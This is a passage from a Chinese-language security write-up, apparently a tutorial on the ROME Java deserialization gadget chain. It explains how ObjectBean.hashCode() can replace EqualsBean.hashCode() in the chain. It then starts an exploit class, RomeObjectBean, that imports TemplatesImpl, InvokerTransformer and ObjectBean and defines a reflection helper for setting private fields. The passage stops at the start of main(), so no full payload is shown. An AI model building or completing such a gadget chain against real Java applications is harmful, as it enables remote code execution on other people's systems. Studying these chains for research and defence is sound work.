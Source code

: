 ```plain
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(ObjectBean)：

在`ObjectBean.hashcode()`中调用了`EqualsBean.beanHashCode()`，其作用和`EqualsBean.hashCode()`等价，所以我们就可以将`EqualsBean.hashCode()`替换为`ObjectBean.hashcode()`:

[![](assets/1701612185-cf7c86bcc9d0f944f52f934a96a9e1a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230807155234-5eb64f8e-34f7-1.png)

```plain
package EXPROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class RomeObjectBean {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

```